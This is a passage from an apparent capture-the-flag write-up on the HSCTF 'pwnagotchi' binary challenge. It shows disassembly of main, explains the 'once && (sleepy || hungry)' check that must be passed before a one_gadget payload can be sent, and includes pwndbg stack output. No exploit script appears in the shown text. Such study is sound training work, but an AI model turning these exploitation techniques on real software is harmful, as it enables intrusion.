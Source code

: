 ```nasm
    movzx   eax, cs:once
    test    al, al
    jz      short loc_4008F8
    movzx   eax, cs:sleepy
    test    al, al
    jnz     short loc_4008D6
    movzx   eax, cs:hungry
    test    al, al
    jz      short loc_4008F8

loc_4008D6: ; "if (once && (sleepy || hungry))"
    lea     rdi, asc_400A2A ; "\n\\ ("
    call    _puts
    lea     rdi, aThisIsWeird ; "This is weird...\n"
    call    _puts
    mov     eax, 0
    jmp     locret_400987; Jump to end of main

loc_4008F8: ; else
    mov     cs:once, 1
    lea     rdi, aEnterYourPwnag ; "Enter your pwnagotchi's name: "

; /////////////////// Truncated ////////////////////////

locret_400987:
    leave
    retn
    main    endp
```

In order for us to be able to send our `one_gadget` payload, we have to pass the condition `if (once && (sleepy || hungry))`. Let's inspect their values, at the end of the first iteration of main. Keep in mind that either `once` must be set to `1`, or both `sleep` and `hungry` must be set to `0`.

```
pwndbg> r
Starting program: /vagrant/challenges/hsctf/pwnagotchi/pwnagotchi
Enter your pwnagotchi's name:
asdf

\ (•-•) /

asdf is not happy!

Breakpoint 1, 0x0000000000400982 in main ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────────────────────────────[ DISASM ]──────────────────────────────────────────────────────────────────
 ► 0x400982       <main+316>                 mov    eax, 0
   0x400987       <main+321>                 leave
   0x400988       <main+322>                 ret
────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────────────
00:0000│ rsp  0x7fffffffdc60 ◂— 0x66647361ffffdd50
01:0008│      0x7fffffffdc68 ◂— 0x3e800000000
02:0010│ rbp  0x7fffffffdc70 —▸ 0x400990 (__libc_csu_init) ◂— push   r15
03:0018│      0x7fffffffdc78 —▸ 0x7ffff7a05b97 (__libc_start_main+231) ◂— mov    edi, eax
04:0020│      0x7fffffffdc80 ◂— 0x1
05:0028│      0x7fffffffdc88 —▸ 0x7fffffffdd58 —▸ 0x7fffffffe09c ◂— '/vagrant/challenges/hsctf/pwnagotchi/pwnagotchi'
06:0030│      0x7fffffffdc90 ◂— 0x100008000
07:0038│      0x7fffffffdc98 —▸ 0x400846 (main) ◂— push   rbp
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```